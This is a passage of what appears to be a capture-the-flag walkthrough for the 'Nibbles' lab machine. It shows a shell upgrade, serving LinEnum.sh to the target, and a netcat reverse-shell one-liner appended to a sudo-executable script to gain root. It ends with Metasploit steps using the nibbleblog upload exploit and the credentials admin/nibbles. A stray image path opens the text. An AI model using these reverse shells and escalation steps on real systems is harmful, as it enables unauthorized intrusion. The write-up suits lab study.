 optional, upgrade your reverse shell:
`python -c 'import pty; pty.spawn("/bin/bash")'`

now we brown so `/home/nibbler` and find:
```bash
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```

now we can try to unzip the `personal.zip` file. We find a small script.

Now we can try [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform a automated privilege escalation checks.

Now we want to give this to the server, so we're going to run a small python server:
1. `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
2. `sudo python3 -m http.server 8080`
3. on target: `wget http://<your ip>:8080/LinEnum.sh`
4. on target: `chmod +x LinEnum.sh`
5. on target: `./LinEnum.sh`

Each line with `[+]` give a possible privilege escalation technique.

In our case we can run sudo without password, and can run the file monitor.sh with root privileges. We have full controle over that file so if we append a reverse shell oneline to the end of it and execute with sudo we should get a reverse shell back as the root user.

Now let's edit monitor.sh:
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh`
- `echo "..."` bash reverse shell script
- `tee` to output to terminal and to the file
- `-a` **append** to file rather than overwrite

**it is crutial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.**

and finally we execute the script with sudo:
1. `sudo /home/nibbler/personal/stuff/monitor.sh 
2. and run `nc -lvnp 8443` on our machine
3. profit !

## Metasploit method:

1. `msf6 > search nibbleblog`
2. `msf6 > use 0`
3. `msf6 exploit(multi/http/nibbleblog_file_upload) > show options`
4. set all the `required` options:
   1. `set username admin`
   2. `set password nibbles`
   3. `set targeturi nibbleblog`
   4. `set payload generic/shell_reverse_tcp`
   5. check with `show options`
5. `exploit` to run shell
6. ...
7. profit !